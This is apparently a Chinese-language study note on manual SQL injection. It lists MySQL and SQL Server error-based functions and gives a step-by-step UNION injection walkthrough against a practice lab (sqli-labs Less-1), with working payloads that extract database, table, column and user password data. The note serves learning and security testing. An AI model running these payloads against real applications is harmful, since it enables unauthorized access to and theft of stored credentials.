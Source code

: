 ## 手工注入

-   总结

    >   -   函数
    >
    >       >   -   报错函数
    >       >
    >       >       >   extractvalue()
    >       >       >
    >       >       >   -   结合截取函数使用：select extractvalue(1,concat(0x7e,(mid((select  user()),10,32)),0x7e))；
    >       >
    >       >   -   updatexml()
    >       >
    >       >   -   gtid_subset()：mysql5.6以上的版本
    >       >
    >       >       >   -   全局事务标识符：用于跟踪和分布式管理复制环境中的事物
    >       >       >
    >       >       >   -   返回结果是布尔值：
    >       >       >
    >       >       >       >   -   true：集合1是集合2的子集
    >       >       >       >   -   false：集合1不是集合2的子集
    >       >       >       >   -   null：包含了空的gtid集合，或者两个gtid集合都为空
    >       >       >
    >       >       >   -   利用集合1的格式不符合gtid的标准格式
    >       >
    >       >   -   exp(x)：指数运算返回e的x次方，返回数据类型是double（1.79e+308）， x>709，引发溢出错误
    >       >
    >       >   -   sql server数据库的特征
    >       >
    >       >       >   -   强类型数据库，会严格区分数字和字符串，利用这个特性，就可以进行 报错注入。(mysql强类型数据库)
    >       >       >   -    convert(int,db_name()) convert()函数强制类型转换函数
    >       >       >   -   1/user
    >       >       >   -    1-system_user
    >       >
    >       >   -   截取函数
    >       >
    >       >       >   -   mid()
    >       >       >   -   left()
    >       >       >   -   right()
    >       >       >   -   substr()
    >       >
    >       >   -   判断函数
    >       >
    >       >       >   -   if()
    >       >       >   -   case when
    >       >
    >       >   -   其他函数
    >       >
    >       >       >   -   ascii()
    >       >       >   -   length()
    >       >       >   -   concat()
    >       >       >   -   count() //多少条数据
    >       >       >   -   系统函数
    >
    >   -   mysql注入
    >
    >       >   -   MySQL数据库构成
    >       >
    >       >       >   -   mysql5.0以后的版主，系统数据库 information_schema
    >       >       >
    >       >       >   ![image-20240318175059870](C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240318175059870.png)
    >       >
    >       >   -   联合注入
    >       >
    >       >       >   -   union操作符
    >       >       >
    >       >       >       >   -   把两个以上的select语句的结果组合到一个结果集中
    >       >       >       >   -   必须列数是相同的
    >       >       >
    >       >       >   -   1.判断注入点的列数 ——》order by
    >       >       >
    >       >       >       >   -   3列
    >       >       >       >
    >       >       >       >   <img src="C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240318175234866.png" alt="image-20240318175234866" style="zoom:200%;" />
    >       >       >
    >       >       >   -   2.找显示位——页面一定要有显示位
    >       >       >
    >       >       >       >   -   构造不存在的值-使原本的语句为假
    >       >       >       >
    >       >       >       >       >   -   //192.168.0.216/sqli/Less-1/?id=-2' union select 1,2,3--+
    >       >       >       >       >
    >       >       >       >       >   <img src="C:/Users/Lynn/AppData/Roaming/Typora/typora-user-images/image-20240318175353177.png" alt="image-20240318175353177" style="zoom:200%;" />
    >       >       >
    >       >       >   -   3.找数据
    >       >       >
    >       >       >       >   -   找数据库名：-2' union select 1,2,database()--+  //security
    >       >       >       >   -   找表名：-2' union select 1,2,group_concat(table_name) from  information_schema.tables where table_schema='security'--+  //emails,referers,uagents,users
    >       >       >       >   -   找字段：-2' union select 1,2,group_concat(column_name) from  information_schema.columns where table_name='users' and  table_schema='security'--+  // id,username,password 
    >       >       >       >   -   找数据：-2' union select 1,username,password from users limit 2,1--+
    >
    >   -    group_concat()是用于在SQL查询中合并和连接多个行值的聚合函数。将多个值合并 为逗号分隔的字符串。